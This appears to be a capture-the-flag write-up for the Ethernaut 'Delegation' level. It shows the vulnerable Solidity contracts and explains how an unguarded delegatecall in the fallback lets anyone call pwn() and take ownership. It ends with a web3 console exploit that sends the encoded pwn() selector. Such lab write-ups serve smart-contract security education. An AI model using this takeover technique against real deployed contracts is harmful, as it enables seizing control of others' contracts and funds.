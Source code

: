 The goal of this level is for you to claim ownership of the instance you are given.

Things that might help

-   Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
-   Fallback methods
-   Method ids

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```


**SOLUTION:**


DelegateCall means that you take the implementation logic of the function in the contract you're making this call to, but using the storage of the calling contract. Since msg.sender, msg.data, msg.value are all preserved when performing a DelegateCall, you just needed to pass in a malicious msg.data i.e. the encoded payload of `pwn()` function to gain ownership of the `Delegation` contract.

We type the following into the Developer Console, to solve the challenge:
```
let payload = web3.eth.abi.encodeFunctionSignature({
    name: 'pwn',
    type: 'function',
    inputs: []
});

await web3.eth.sendTransaction({
    from: player,
    to: instance,
    data: payload
});
```

We verify that we solved the challenge by clicking the "Submit Instance" button, verifying the transaction, through Metamask, and waiting to be confirmed.